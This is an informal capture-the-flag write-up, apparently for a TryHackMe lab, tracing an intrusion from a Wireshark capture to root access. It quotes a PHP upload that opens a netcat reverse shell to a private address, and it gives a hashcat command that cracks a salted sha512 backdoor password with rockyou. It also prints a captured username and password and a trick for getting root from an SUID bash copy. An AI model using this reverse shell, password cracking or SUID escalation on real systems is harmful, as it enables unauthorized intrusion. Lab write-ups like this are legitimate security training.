so were analyzing in wireshark. thats cool 

used it to get a username and pass. 
found backdoor below


Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
Content-Type: application/x-php

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="submit"

Upload File
-----------------------------1809049028579987031515260006--


)n)ºHEKwa@@ìÉÀ¨ªÀ¨ªáPg§ÔØ	a±nýA¼
Â 5Q ðwhenevernoteartinstant



User: james
pass: whenevernoteartinstant


this is the command they used to establish persistnce
<git clone https://github.com/NinjaJc01/ssh-backdoor>
finding hash, i wonder how they want us to find it. 
figured it out. the hash is in the repo above, right in the main.go so is the salt, at the bottom. 

hash ID to id the hash and then probs hashcat to do the hashing. off to the races. 

sha512, just regular salt added i guess, no funkery seen in the main.go

1710 or 1720

hashcat -m 1710  -a 0 -o ~/Desktop/ctf/tryhackme/overpass2/cracked.txt hash  ~/Desktop/SecLists-master/Passwords/Leaked-Databases/rockyou.txt


1710 worked. 
right in as james ssh, port 2222 as the backdoor and tcp stream specify. user flag is easy enought. root is unusual though. no passwords were 
banged linpeas onto the box, boom,unknown suid 
lets see what that gets us. 
-rwsr-sr-x 1 root root 1.1M Jul 22  2020 /home/james/.suid_bash (Unknown SUID binary!)

bashed my head against the wall on this one for a bit. i knew there it was, but was still prompted for the pass. had to go to a writeup to find the-p flag was what i needed. huh . that way it inherited the suid bit basicly